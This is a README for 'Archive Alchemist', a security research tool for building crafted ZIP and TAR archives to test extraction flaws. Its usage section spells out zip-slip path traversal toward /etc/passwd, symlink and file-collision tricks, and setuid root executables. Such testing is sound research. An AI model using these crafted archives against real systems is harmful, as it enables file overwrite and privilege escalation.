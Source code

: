 # Archive Alchemist

Archive Alchemist is a security research tool for creating specially crafted archives to test extraction vulnerabilities. 100% vibecoded, use at own disposal.

## Features

- Create ZIP and TAR archives with malicious patterns
- Support for path traversal attacks
- Support for symlinks and hardlinks
- Ability to set special permission bits (setuid, setgid, sticky bit)
- Fine-grained control over file attributes (mode, uid, gid, mtime)
- Multiple manipulation commands: add, replace, append, modify

## Installation

```bash
# Clone the repository
git clone https://github.com/avlidienbrunn/archive-alchemist.git
cd archive-alchemist

# Make the script executable
chmod +x archive-alchemist.py

# Optional: create a symlink to use globally
sudo ln -s $(pwd)/archive-alchemist.py /usr/local/bin/archive-alchemist
```

## Usage

### Basic Usage

```bash
./archive-alchemist.py -f archive.zip -t zip <command> [options]
```

### Commands

#### Add Files

```bash
# Add a regular file
./archive-alchemist.py -f archive.zip add hello.js --content "console.log('hello')"

# Add a file with path traversal
./archive-alchemist.py -f archive.tar -t tar add "../../../etc/passwd" --content "fake passwd file"

# Add a symlink
./archive-alchemist.py -f archive.tar -t tar add hello.js --symlink "/tmp/xx.txt"

# Add with permission bits
./archive-alchemist.py -f archive.tar -t tar add exploit.sh --content "#!/bin/sh\necho hacked" --mode 0755 --setuid
```

#### Replace Files

```bash
# Replace existing file content
./archive-alchemist.py -f archive.zip replace hello.js --content "console.log('replaced')"
```

#### Append to Files

```bash
# Append content to existing file
./archive-alchemist.py -f archive.zip append hello.js --content "\nconsole.log('appended')"
```

#### Modify Attributes

```bash
# Modify file attributes
./archive-alchemist.py -f archive.tar -t tar modify hello.js --mode 0755 --uid 0 --gid 0 --setuid
```

#### Remove Files

```bash
# Remove a file from an archive
./archive-alchemist.py -v -f archive.zip remove file.txt

# Remove a directory and all its contents
./archive-alchemist.py -v -f archive.tar -t tar remove directory/
```

#### List Archive Contents

```bash
# List files in an archive
./archive-alchemist.py -f archive.zip list

# Show detailed listing with file attributes
./archive-alchemist.py -f archive.tar -t tar list --long 1

# or the short form
./archive-alchemist.py -f archive.zip list -l 0
```

### Examples for Security Testing

#### Zip Slip Attack

```bash
# Create a zip with path traversal payload
./archive-alchemist.py -f zipslip.zip add "../../../tmp/evil.txt" --content "I escaped the extraction directory!"
```

#### Symlink Attack

```bash
# Create a tar with a symlink pointing to a sensitive file
./archive-alchemist.py -f symlink_attack.tar -t tar add .bashrc --symlink "/etc/passwd"
```

#### File Collisions with Symlinks

```bash
# First add a symlink
./archive-alchemist.py -f collision.tar -t tar add config.txt --symlink "/tmp/target.txt"

# Then add a regular file with the same name (will be extracted last)
./archive-alchemist.py -f collision.tar -t tar add config.txt --content "Overwrite after symlink is created"
```

#### Setuid Executable

```bash
# Create a setuid executable
./archive-alchemist.py -f setuid_attack.tar -t tar add exploit --content "#!/bin/sh\nwhoami" --mode 0755 --setuid --uid 0
```

## Security Considerations

This tool is designed for security research and vulnerability testing. Using it against systems without explicit permission is illegal and unethical.